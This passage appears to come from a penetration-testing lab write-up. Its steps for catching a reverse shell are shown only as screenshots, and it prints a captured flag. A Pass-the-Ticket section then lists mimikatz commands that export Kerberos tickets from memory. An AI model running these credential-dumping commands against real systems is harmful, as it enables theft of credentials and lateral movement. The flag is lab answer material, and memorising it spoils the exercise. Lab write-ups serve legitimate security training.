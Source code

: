 

    * Netcat listener

    <figure><img src=".gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>


* Run command

<figure><img src=".gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

*   Obtain reverse Shell & get flag

    <figure><img src=".gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

<mark style="color:green;">**JuL1()\_N3w\_fl@g**</mark>

### Pass the Ticket (PtT) from Windows

#### Questions

**Connect to the target machine using RDP and the provided creds. Export all tickets present on the computer. How many users TGT did you collect?**

* Reminna login via RDP
* run C:/tools/mimikatz.exe

```cmd-session
privilege::debug
sekurlsa::tickets /export
```

